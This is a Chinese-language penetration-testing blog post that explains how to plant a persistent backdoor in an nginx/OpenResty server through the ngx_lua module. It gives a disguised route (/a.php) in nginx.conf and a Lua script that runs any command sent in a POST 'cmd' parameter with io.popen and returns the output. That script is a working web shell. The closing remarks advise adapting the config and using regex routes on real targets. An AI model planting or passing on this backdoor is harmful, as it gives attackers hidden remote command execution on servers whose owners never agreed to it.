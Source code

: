 ```yaml
---
title: "Nginx Lua Backdoor"
date: 2019-09-01T17:35:59+08:00
lastmod: 2019-09-01T17:35:59+08:00
draft: false
tags: ['backdoor']
categories: ['渗透测试']
comment: true
---
```

在先知看到了apache利用lua留后门，就想着用nginx也试试
<!--more-->

# 要求

安装有ngx_lua模块，在openresty和tengine中是默认安装了ngx_lua模块的。

我这里拿openresty举例，你可以在这里[下载win平台](https://openresty.org/download/openresty-1.15.8.1-win64.zip)打包好的。

# 步骤

找到conf/nginx.conf，在server块中添加路由

```nginx
location = /a.php {  
    default_type 'text/plain';  
    content_by_lua_file lua/backdoor.lua;
}
```

然后创建`lua/backdoor.lua`脚本，你也可以创建在任意位置，不过要对应上文的`content_by_lua_file`字段

```lua
ngx.req.read_body()
local post_args = ngx.req.get_post_args()
local cmd = post_args["cmd"]
if cmd then
    f_ret = io.popen(cmd)
    local ret = f_ret:read("*a")
    ngx.say(string.format("%s", ret))
end
```

重载nginx

```bash
nginx -s reload
```

浏览器访问

![20190901174819](https://y4er.com/img/uploads/20190901174819.png)

# 文后

在实际的环境中，conf文件并不固定，你需要针对不同站点的配置文件去修改。

而location你可以更灵活一些，毕竟他能用正则表达式🙄，具体怎么用看你自己咯。

参考链接

1. https://github.com/netxfly/nginx_lua_security
2. https://xz.aliyun.com/t/6088

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**